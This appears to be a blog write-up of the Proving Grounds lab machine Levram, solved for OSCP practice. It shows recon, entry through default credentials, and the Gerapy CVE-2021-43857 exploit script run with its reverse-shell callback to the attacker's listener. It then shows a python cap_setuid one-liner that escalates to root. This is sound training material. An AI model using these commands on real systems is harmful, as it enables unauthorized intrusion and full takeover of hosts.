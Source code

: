 ```yaml
---
date: '2024-09-04'
before : '2024-09-01'
after : '2024-09-06'
title: 'OSCP Prep: Proving Grounds : Levram'
categories: ['C-SEC', 'proving_grounds', 'full-machine', 'ENG']
summary: 'Solving GLPI machine from Proving Grounds'
thumbnail: '../contentImages/levram/levram-1.png'
---
```

## 0. Machine Info

Levram is an easy machine from Proving Grounds, and this one is pretty straight forward.

## 1. Recon
- nmap

```
┌──(hosan㉿kali)-[~]
└─$ sudo nmap 192.168.211.24 -T4 -p-       
[sudo] password for hosan: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-05 13:13 EDT
Nmap scan report for 192.168.211.24
Host is up (0.029s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt

Nmap done: 1 IP address (1 host up) scanned in 10.28 seconds
```


- port 22
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (95%), Linux 5.0 - 5.4 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (94%), Linux 3.2 (94%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), HP P2000 G3 NAS device (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   28.77 ms 192.168.45.1
2   28.51 ms 192.168.45.254
3   37.19 ms 192.168.251.1
4   37.45 ms 192.168.211.24

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5.09 seconds
```


- port 8000
```
┌──(hosan㉿kali)-[~]
└─$ sudo nmap 192.168.211.24 -T4 -p8000 -A -sC -sV -Pn
[sudo] password for hosan: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-05 13:21 EDT
Nmap scan report for 192.168.211.24
Host is up (0.029s latency).

PORT     STATE SERVICE  VERSION
8000/tcp open  http-alt WSGIServer/0.2 CPython/3.10.6
|_http-title: Gerapy
|_http-server-header: WSGIServer/0.2 CPython/3.10.6
```

There is nothing special or common cve with versions above or any interesting interactions. Let's start with webapp enumeration.

## 2. Initial Foothold

I tried a basic admin:admin, and I got in (...)

![levram-1](../contentImages/levram/levram-1.png)

Then, the footer revealed that they have Gerapy 0.9.6 running behind the webapp. Since Subdirectory enumeration didn't work well, I started to search CVE for Gerapy


Quick search for CVE:

```
┌──(hosan㉿kali)-[~]
└─$ searchsploit gerapy          
---------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                |  Path
---------------------------------------------------------------------------------------------- ---------------------------------
Gerapy 0.9.7 - Remote Code Execution (RCE) (Authenticated)                                    | python/remote/50640.py
---------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

That's exactly what we need!


For this exploit, we need more than one project. But as we can see from the first image, we have no projects right now, so I simply created a project.

![levram-2](../contentImages/levram/levram-2.png)

Then I executed the script, got my shell.

```
┌──(hosan㉿kali)-[~/pg/levram]
└─$ python3 50640.py -t 192.168.211.24 -p 8000 -L 192.168.45.230 -P 443
  ______     _______     ____   ___ ____  _       _  _  _____  ___ ____ _____ 
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |     | || ||___ / ( _ ) ___|___  |
| |    \ \ / /|  _| _____ __) | | | |__) | |_____| || |_ |_ \ / _ \___ \  / / 
| |___  \ V / | |__|_____/ __/| |_| / __/| |_____|__   _|__) | (_) |__) |/ /  
 \____|  \_/  |_____|   |_____|\___/_____|_|        |_||____/ \___/____//_/   
                                                                              

Exploit for CVE-2021-43857
For: Gerapy < 0.9.8
[*] Resolving URL...
[*] Logging in to application...
[*] Login successful! Proceeding...
{'Authorization': 'Token b58db15bafeac901558a5da07b2b894f1f2b7111'}
[*] Getting the project list
[{"name": "exploit"}]
[{"name": "exploit"}]
[*] Found project: exploit
[*] Getting the ID of the project to build the URL
[*] Found ID of the project:  1
[*] Setting up a netcat listener
listening on [any] 443 ...
[*] Executing reverse shell payload
[*] Watchout for shell! :)
connect to [192.168.45.230] from (UNKNOWN) [192.168.211.24] 55734
bash: cannot set terminal process group (844): Inappropriate ioctl for device
bash: no job control in this shell
app@ubuntu:~/gerapy$ 

```

## 3. PrivEsc to root

I executed linpeash.sh, but there were too many potential risks.


What I tried:

- sudo -l
- kernel exploit
- suid/sgid binary


Nothing worked. But at last, I found that python3 (as binary) has following (linux-) capability!:
```
Files with capabilities (limited to 50):
/snap/core20/1891/usr/bin/ping cap_net_raw=ep
/snap/core20/2318/usr/bin/ping cap_net_raw=ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
/usr/bin/mtr-packet cap_net_raw=ep
/usr/bin/python3.10 cap_setuid=ep !this one
```

What is capability then?


> Capabilities are useful when you want to restrict your own processes after performing privileged operations (e.g. after setting up chroot and binding to a socket). However, they can be exploited by passing them malicious commands or arguments which are then run as root.

For example, if there is setuid capability bit for a binary allowed, the binary is allowed to change the setuid of it's process if it is being executed, since cap_setuid=ep is enabled for python3.10!


It means, we can use import os; os.setuid(0) by executing python from command shell!

```
app@ubuntu:~/gerapy$ python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
< -c 'import os;os.setuid(0);os.system("/bin/bash")'
whoami
root
cat /root/proof.txt
96809490798d8d9d8779af42f6fb0f24
```

I got root. That's pretty much it.

## 4. Review

Easy enough, fair enough.


It covered all basic stuffs though (with privesc enumeration)

---
## 5. Source

- Proving Grounds
- Me!